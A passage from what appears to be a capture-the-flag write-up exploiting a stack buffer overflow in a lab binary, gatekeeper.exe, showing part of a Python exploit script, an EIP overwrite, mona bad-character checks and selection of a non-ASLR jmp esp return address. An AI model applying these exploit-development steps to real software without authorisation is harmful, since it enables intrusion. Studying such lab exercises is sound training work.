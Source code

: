 ```python
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")

```

Run it!

```bash
./eip.py   
buffer= 150
Crash Overwrite EIP: 42424242...
Done!
```

### Bad Character Check

Run through the bad character check process starting with the nullbyte array (`!mona bytearray -b "\x00"`).

Then compare:

`!mona compare -f C:\Users\IEUser\Downloads\gatekeeper\bytearray.bin -a 015419F8`

get a bad character list : `00 0a`

Generate a new bytearray with the new found bad characters:

`!mona bytearray -b "\x00\x0a"`

Compare:

`!mona compare -f C:\Users\IEUser\Downloads\gatekeeper\bytearray.bin -a 014D19F8`

Booya!

### Find the jmp Return Address

Find a module that doesn't have "Address Space Layout Randomization (ASLR)" memory protection:

`!mona jmp -r esp -cpb "\x00\x0a"`

```bash
Log data, item 4
 Address=080414C3
 Message=  0x080414c3 : jmp esp |  {PAGE_EXECUTE_READ} [gatekeeper.exe] ASLR: False, Rebase: False, SafeSEH: True, OS: False, v-1.0- (C:\Users\IEUser\Downloads\gatekeeper.exe)

Log data, item 3
 Address=080416BF
 Message=  0x080416bf : jmp esp |  {PAGE_EXECUTE_READ} [gatekeeper.exe] ASLR: False, Rebase: False, SafeSEH: True, OS: False, v-1.0- (C:\Users\IEUser\Downloads\gatekeeper.exe)
```

Pick one.

I choose `080414C3` = little endian = `\xc3\x14\x04\x08`
